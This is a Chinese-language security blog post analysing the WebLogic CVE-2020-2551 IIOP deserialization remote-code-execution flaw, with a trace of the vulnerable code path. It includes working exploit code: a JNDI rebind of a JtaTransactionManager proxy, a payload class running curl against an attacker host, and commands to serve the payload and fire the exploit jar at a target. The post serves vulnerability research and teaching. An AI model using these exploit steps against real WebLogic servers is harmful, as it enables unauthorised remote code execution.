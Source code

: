 ```yaml
---
title: "Weblogic CVE-2020-2551 IIOP协议反序列化RCE"
date: 2020-02-28T13:23:36+08:00
draft: false
tags:
- Weblogic
- RCE
- 反序列化
- Java
series:
- Weblogic
categories:
- 代码审计
---
```


IIOP协议导致的反序列化。
<!--more-->
## 环境
weblogic10.3.6+jdk1.6
idea+jdk1.8+jdk1.6

## IIOP
IIOP，Internet Inter-ORB Protocol(互联网内部对象请求代理协议)，它是一个用于CORBA 2.0及兼容平台上的协议；用来在CORBA对象请求代理之间交流的协议。Java中使得程序可以和其他语言的CORBA实现互操作性的协议。

RMI-IIOP出现以前，只有RMI和CORBA两种选择来进行分布式程序设计，二者之间不能协作。RMI-IIOP综合了RMI 和CORBA的优点，克服了他们的缺点，使得程序员能更方便的编写分布式程序设计，实现分布式计算。RMI-IIOP综合了RMI的简单性和CORBA的多语言性兼容性，RMI-IIOP克服了RMI只能用于Java的缺点和CORBA的复杂性。

在Weblogic中，默认启用了IIOP，而IIOP的传输也是通过序列化和反序列化的形式来进行的。在Weblogic中RMI-IIOP模型可以借用奇安信观星实验室的一张图来说明

![image](https://y4er.com/img/uploads/20200228171035.png)

## IIOP样例
先来看一个简单的RMI-IIOP样例，具体代码可以看 https://github.com/longofo/rmi-jndi-ldap-jrmp-jmx-jms

```java
package com.longofo.example;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

public class HelloServer {
    public final static String JNDI_FACTORY = "com.sun.jndi.cosnaming.CNCtxFactory";

    public static void main(String[] args) {
        try {
            System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:8000/");
            //实例化Hello servant
            HelloImpl helloRef = new HelloImpl();

            //使用JNDI在命名服务中发布引用
            InitialContext initialContext = getInitialContext("iiop://127.0.0.1:1050");
            initialContext.rebind("HelloService", helloRef);

            System.out.println("Hello Server Ready...");

            Thread.currentThread().join();
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    private static InitialContext getInitialContext(String url) throws NamingException {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
}
```
Server端通过InitialContext拿到上下文，然后注册一个HelloService对应helloRef引用，而HelloImpl又实现了HelloInterface接口，其中有一个sayHello方法并且继承java.rmi.Remote抛出java.rmi.RemoteException，这部分其实和RMI是大同小异的，在我的其他文章中介绍过了RMI，这里不再赘述。

## 漏洞分析
现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求
```java
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
context.rebind("Y4er"+System.nanoTime(), remote);
```
你肯定疑惑JtaTransactionManager和weblogic.jndi.WLInitialContextFactory是从哪来的？

1. JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2. weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725
![image](https://y4er.com/img/uploads/20200228174070.png)

此时var2是序列化传入的`com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`，跟进readValue()
![image](https://y4er.com/img/uploads/20200228172827.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![image](https://y4er.com/img/uploads/20200228175633.png)

然后通过反射调用JtaTransactionManager的readObject()，跟进
![image](https://y4er.com/img/uploads/20200228176407.png)

到此之后就是Weblogic的CVE-2018-3191 spring JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进initUserTransactionAndTransactionManager()
![image](https://y4er.com/img/uploads/20200228172797.png)

如果userTransaction等于空有userTransactionName属性则进入lookupUserTransaction()，跟进
![image](https://y4er.com/img/uploads/20200228171163.png)

此时lookup()参数可控
![image](https://y4er.com/img/uploads/20200228170996.png)

lookup加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用。如果不明白请参考文末的《Spring framework 反序列化的漏洞》以及《weblogic之CVE-2018-3191漏洞分析》。

## 漏洞利用
Github：https://github.com/Y4er/CVE-2020-2551

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80
```
命令行运行jar包
```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```
实际效果如图
![image](https://y4er.com/img/uploads/20200228174168.gif)

## 参考链接
1. https://paper.seebug.org/1130
2. https://seaii-blog.com/index.php/2019/12/29/92.html
3. https://www.anquanke.com/post/id/197605
4. https://www.cnblogs.com/afanti/p/10256843.html
5. https://www.cnblogs.com/afanti/p/10193169.html
6. https://github.com/Y4er/CVE-2020-2551
7. https://github.com/longofo/rmi-jndi-ldap-jrmp-jmx-jms
8. https://paper.seebug.org/1105/
9. https://paper.seebug.org/1091/

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**